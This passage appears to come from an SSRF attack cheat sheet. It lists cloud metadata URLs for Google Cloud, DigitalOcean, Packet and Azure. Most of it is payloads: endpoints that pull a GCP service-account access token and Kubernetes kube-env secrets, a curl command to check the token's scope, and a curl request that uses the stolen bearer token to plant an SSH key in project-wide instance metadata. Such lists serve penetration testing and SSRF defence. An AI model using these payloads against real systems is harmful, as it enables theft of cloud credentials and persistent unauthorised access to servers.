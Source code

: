      http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
- Kubernetes Key:
 
      http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json
### Add an SSH key
Extract the token

      http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
Check the scope of the token

    $ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  
    { 
            "issued_to": "101302079XXXXX", 
            "audience": "10130207XXXXX", 
            "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write               
             https://www.googleapis.com/auth/monitoring", 
            "expires_in": 2443, 
            "access_type": "offline" 
    }
Now push the SSH key.

    curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
    -H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
    -H "Content-Type: application/json" 
    --data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
### SSRF URL for Digital Ocean
Documentation available at
[https://docs.digitalocean.com/reference/api/metadata-api/](https://docs.digitalocean.com/reference/api/metadata-api/)

    curl http://169.254.169.254/metadata/v1/id
    http://169.254.169.254/metadata/v1.json
    http://169.254.169.254/metadata/v1/ 
    http://169.254.169.254/metadata/v1/id
    http://169.254.169.254/metadata/v1/user-data
    http://169.254.169.254/metadata/v1/hostname
    http://169.254.169.254/metadata/v1/region
    http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
    All in one request:
    curl http://169.254.169.254/metadata/v1.json | jq
### SSRF URL for Packetcloud
Documentation available at https://metadata.packet.net/userdata
### SSRF URL for Azure
Limited, maybe more exists? https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/

    http://169.254.169.254/metadata/v1/maintenance
Update Apr 2017, Azure has more support; requires the header “Metadata: true” **https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service**
